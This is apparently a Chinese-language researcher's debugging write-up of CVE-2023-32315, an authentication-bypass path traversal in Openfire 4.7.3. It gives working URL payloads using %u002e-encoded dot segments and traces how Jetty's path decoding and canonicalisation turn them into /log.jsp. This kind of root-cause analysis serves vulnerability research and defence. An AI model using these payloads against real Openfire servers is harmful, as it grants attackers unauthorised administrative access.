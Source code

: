 
参考：
- https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md

### 环境搭建

```bash
wget https://github.com/igniterealtime/Openfire/releases/download/v4.7.3/openfire_4_7_3.tar.gz
tar zxf openfire_4_7_3.tar.gz
cd bin
chmod +x ./openfire.sh
./openfire.sh start -debug
```
即可监听在5005端口进行调试。

payload:
```
/setup/setup-/../../log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/2e63de08-0853-49cb-b267-e050b57f7ce6)
说明到这里的时候，不能有`%2e`。
将`../../`进行unicode编码，得到：
```
/setup/setup-/\u002E\u002E/\u002E\u002E/log.jsp
```

![image](https://github.com/shadowsock5/Poc/assets/30398606/d3db00ec-f5c3-41d4-8648-ca43b14a4d83)

虽然能过认证，但是响应是这样的：
![image](https://github.com/shadowsock5/Poc/assets/30398606/ddd0cd28-6882-455e-bc6f-b5da33a34023)

直接抄答案，
```
/setup/setup-/%u002E%u002E/%u002E%u002E/log.jsp
```
绕过了。
![image](https://github.com/shadowsock5/Poc/assets/30398606/e7615e3e-f554-4c39-a058-46cc2c97ed4a)

调试看一下为什么？

注意这里的log.jsp并不是真的存在这个文件，而是在web.xml中有其映射的servlet。
```xml
    <servlet>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <servlet-class>org.jivesoftware.openfire.admin.log_jsp</servlet-class>
    </servlet>
...
    <servlet-mapping>
        <servlet-name>org.jivesoftware.openfire.admin.log_jsp</servlet-name>
        <url-pattern>/log.jsp</url-pattern>
    </servlet-mapping>
```

在这里下断点：
org.jivesoftware.openfire.admin.log_jsp#_jspService

![image](https://github.com/shadowsock5/Poc/assets/30398606/e7811e9d-0332-4242-94c9-ca1cb518afad)
断下来之后往前回溯。
![image](https://github.com/shadowsock5/Poc/assets/30398606/7ae5ced4-59e4-40f0-a618-46db5ac750fe)

openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class# handle


在这里
openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
看到了：
```java

    static {
        __ambiguousSegments.put(".", Boolean.FALSE);
        __ambiguousSegments.put("%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e", Boolean.TRUE);
        __ambiguousSegments.put("..", Boolean.FALSE);
        __ambiguousSegments.put(".%2e", Boolean.TRUE);
        __ambiguousSegments.put(".%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%2e.", Boolean.TRUE);
        __ambiguousSegments.put("%2e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%2e%u002e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e.", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%2e", Boolean.TRUE);
        __ambiguousSegments.put("%u002e%u002e", Boolean.TRUE);
    }
```
所以从这里面看，只有不包含`%2e`的，能变成..的应该都可以，比如：
```
/setup/setup-/.%u002e/.%u002e/log.jsp
/setup/setup-/%u002e./%u002e./log.jsp
```

一些细节：
![image](https://github.com/shadowsock5/Poc/assets/30398606/f63dfd7a-6e23-4011-b2eb-3d1e56c534ef)

openfire\lib\jetty-util-9.4.43.v20210629.jar!\org\eclipse\jetty\util\URIUtil.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/e291fb82-1dc0-473e-b059-466d4147709e)

openfire\lib\jetty-http-9.4.43.v20210629.jar!\org\eclipse\jetty\http\HttpURI.class
![image](https://github.com/shadowsock5/Poc/assets/30398606/d83c058a-3a45-4a6d-a2f1-7524af4508ca)
这里的
```java
String decodedNonCanonical = URIUtil.decodePath(this._path)
```
把
```
/setup/setup-/.%u002e/.%u002e/log.jsp
=>
/setup/setup-/../../log.jsp
```
然后
```java
this._decodedPath = URIUtil.canonicalPath(decodedNonCanonical)
```
把
```
/setup/setup-/../../log.jsp
=>
/log.jsp
```

这样在这里，
openfire\lib\jetty-server-9.4.43.v20210629.jar!\org\eclipse\jetty\server\HttpChannelOverHttp.class

![image](https://github.com/shadowsock5/Poc/assets/30398606/64f6a262-7743-4320-b199-fdfb98a811ec)

已经被转换成了`/log.jsp`。

再来看看为什么这个url对应到了log_jsp这个servlet：
![image](https://github.com/shadowsock5/Poc/assets/30398606/3880365a-e15f-4293-b004-5da88e8ca317)

这里直接就得到的是`NotAsync:org.jivesoftware.openfire.admin.log_jsp@6a5ef204`，调试一下怎么得到的。但是如果不是启动后第一次访问这个servlet，就没法得到`this._servlet`被赋值的过程。
重新启动，第一次访问即使用这个payload。
在openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHolder.class#initServlet的第一行下断点。
没找到。
最后在这里找到了
openfire\lib\jetty-servlet-9.4.43.v20210629.jar!\org\eclipse\jetty\servlet\ServletHandler.class#doScope
![image](https://github.com/shadowsock5/Poc/assets/30398606/26f9f1dd-50ac-49a6-b4c8-a408be079666)
在这一行就得到了/log.jsp对应的servlet：
```java
String old_path_info = baseRequest.getPathInfo()
```

## Ref
- https://mp.weixin.qq.com/s/cuULlP0F0Xf9Rhmkb-9H0g
- https://mp.weixin.qq.com/s/EzfB8CM4y4aNtKFJqSOM1w
- https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm
